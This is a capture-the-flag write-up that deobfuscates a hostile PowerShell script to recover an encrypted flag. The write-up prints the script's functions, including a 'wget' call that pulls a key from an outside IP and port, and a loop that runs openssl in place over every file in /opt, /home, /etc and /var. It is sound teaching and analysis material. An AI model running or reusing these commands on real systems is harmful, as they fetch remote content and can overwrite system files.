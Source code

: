 # DamCTF 2025: The Bash.ps1 Challenge

## Challenge Description
**Category:** Reverse Engineering  
**Files:** 
- `bash.ps1` - An obfuscated PowerShell script
- `enc` - An encrypted file with OpenSSL format

**Warning:** ⚠️ Do not run the PowerShell script! It contains code that could potentially harm your system.

## Initial Analysis

I started by examining the files to understand what I was dealing with:

```bash
$ file *
bash.ps1: ASCII text, with very long lines (2716), with CRLF line terminators
enc:      openssl enc'd data with salted password
```

The challenge provides a PowerShell script and an encrypted file. The script appears to be responsible for decrypting the `enc` file, but is heavily obfuscated with variable and function names consisting entirely of 'A' characters.

## Approach: Systematic Deobfuscation

Rather than executing the potentially harmful script, I decided to analyze it statically by systematically renaming variables and functions based on their behavior.

## Step 1: Understanding the Script Flow

After deobfuscation, I identified that the script follows this sequence:

```
Main
 ├─ CheckEnvironment
 ├─ BuildCharacterDictionary
 ├─ DownloadKey
 ├─ ProcessEncryptedFiles
 └─ RemoveKey
```

## Step 2: Analyzing Each Function

### CheckEnvironment Function

This function implements safety checks to prevent accidental execution:

```powershell
function CheckEnvironment 
{
    if ([int](&(Get-Command /???/id) -u) -cne -not [bool][byte]){exit}
    if (-not ((&(Get-Command /???/?at) /etc/*release*) | grep noble)){exit}
    if ((&(Get-Command /???/?at) /sys/class/net/enp0s3/address) -cne "08:00:27:eb:6b:49"){exit}
}
```

The key insights from this function:
- It checks if the script is running on Ubuntu 24.04 (Noble Numbat)
- It verifies a specific MAC address
- It ensures the script runs with specific user permissions

### BuildCharacterDictionary Function

This function constructs a custom character dictionary from OS information:

```powershell
function BuildCharacterDictionary
{
    $osReleaseLines = # Content of /etc/*release* from Ubuntu Noble
    $characterArray = # Complex concatenation of OS release lines
    $characterArray = (-join ($characterArray | sort-object | get-unique))
    $Global:CharacterDictionary = $characterArray
}
```

To accurately recreate this dictionary, I spun up a Docker container with Ubuntu Noble:

```bash
$ docker run -it ubuntu:noble /bin/bash
# Inside container
$ cat /etc/*release*
```

This gave me the exact OS release information needed to build the character dictionary. After processing according to the script's algorithm, I determined the dictionary was:
```
"-./:0123456789:=ABCDEGHIKLMNOPRSTUVY_abcdeghilmnoprstuvwy"
```

### DownloadKey Function

This function constructs a URL and downloads the decryption key:

```powershell
function DownloadKey 
{
    $keyUrl = # URL built from character indices
    $outputFile = $GLOBAL:CharacterDictionary[16]  # 'A'
    &(Get-Command /???/?ge?) $keyUrl -q -O $outputFile
}
```

By decoding the character indices against our dictionary, I determined the command being executed was:
```bash
wget 35.87.165.65:31337/key -q -O A
```

This downloads a key from the given IP address and port, saving it to a file named 'A'. For the challenge, I created this file with the mentioned key content.

### ProcessEncryptedFiles Function

This function executes the actual decryption:

```powershell
function ProcessEncryptedFiles
{
    foreach ($encryptedFile in (Invoke-Expression ('find /opt/ -type f')))
    {
        Invoke-Expression ("openssl enc -aes-256-cbc -d -pass file:key -in $encryptedFile -out $encryptedFile")
    }
    # Similar loops for /home/, /etc/, and /var/
}
```

The function:
1. Searches four system directories (/opt/, /home/, /etc/, /var/) for all files
2. Attempts to decrypt each file using OpenSSL with AES-256-CBC
3. Uses the key downloaded earlier

This informed me that I needed to use OpenSSL with AES-256-CBC for decryption.

## Step 3: Decrypting the Flag

Based on my analysis, I knew:
1. The encryption algorithm (AES-256-CBC)
2. The key was downloaded to a file named 'A'
3. The script uses the key with `-pass file:key`

The key downloaded from the URL was:
```
I understand that, without my agreement, Alpine F1 have put out a press release late this afternoon that I am driving for them next year. This is wrong and I have not signed a contract with Alpine for 2023. I will not be driving for Alpine next year.
```

To decrypt the flag, I ran:

```bash
$ openssl enc -aes-256-cbc -d -pass file:A -in enc -out flag
$ cat flag
dam{unattended_arch_boxes_will_be_given_powershell}
```

## Flag
`dam{unattended_arch_boxes_will_be_given_powershell}` 
